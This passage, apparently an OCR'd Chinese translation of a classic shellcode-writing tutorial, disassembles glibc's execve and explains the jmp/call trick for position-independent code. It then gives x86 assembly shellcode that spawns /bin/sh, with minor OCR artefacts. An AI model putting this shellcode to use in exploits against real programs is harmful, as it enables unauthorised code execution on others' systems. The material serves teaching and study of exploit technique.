 ```
int  execve  (const  char  *filename, char *const argv [], char *const envp[]);

Lets get the details of the system call from glibc2:

# gdb /lib/libc.so.6
(gdb) disas execve
Dump of assembler code for function execve:
0x5da00 :       pushl  %ebx

/* this is the actual syscall. before a program would call execve, it would
  push the arguments in reverse order on the stack: **envp, **argv, *filename */
/* put address of **envp into edx register */
0x5da01 :     movl   0x10(%esp,1),%edx
/* put address of **argv into ecx register */
0x5da05 :     movl   0xc(%esp,1),%ecx
/* put address of *filename into ebx register */
0x5da09 :     movl   0x8(%esp,1),%ebx
/* put 0xb in eax register; 0xb == execve in the internal system call table */
0x5da0d :    movl   $0xb,%eax
/* give control to kernel, to execute execve instruction */
0x5da12 :    int    $0x80

0x5da14 :    popl   %ebx
0x5da15 :    cmpl   $0xfffff001,%eax
0x5da1a :    jae    0x5da1d <__syscall_error>
0x5da1c :    ret
```

结束汇编转存。

**4a 使代码可移植**

‍‍传统方式中，我们必须应用一个策略在内存中完成没有指导参数的Shellcode，通过给予它们在页存储上的精确位置，这只能在编译中完成。

一旦我们估计了shellcode的大小，我们能够使用指令jmp和call在执行线程向前或向后到达指定的字节。为什么使用call？call会自动的在栈内存储和返回地址，这个返回地址是在下一个call指令后的4个字节。在call运行后放置一个正确的变量，我们间接的把地址压进了栈中，没有必要了解它。‍‍

```
0   jmp      (skip Z bytes forward)
2   popl %esi
... put function(s) here ...
Z   call <-Z+2> (skip 2 less than Z bytes backward, to POPL)
Z+5 .string     (first variable)
```

（注：如果你要写的代码比一个简单的shell还要复杂，你可以多次使用上面的代码。字符串放在代码的后面。你知道这些字符串的大小，因此一旦你知道第一个字符串的位置，就可以计算他们的相对位置。）

**4b Shellcode**

```
global code_start/* we';ll need this later, dont mind it */
global code_end
.data
code_start:
jmp  0x17
popl %esi
movl %esi,0x8(%esi)/* put address of **argv behind shellcode,
   0x8 bytes behind it so a /bin/sh has place */
xorl %eax,%eax/* put 0 in %eax */
movb %eax,0x7(%esi)/* put terminating 0 after /bin/sh string */
movl %eax,0xc(%esi)/* another 0 to get the size of a long word */
my_execve:
movb $0xb,%al/* execve(         */
movl %esi,%ebx/* "/bin/sh",      */
leal 0x8(%esi),%ecx/* & of "/bin/sh", */
xorl %edx,%edx/* NULL   */
int $0x80/* );   */
```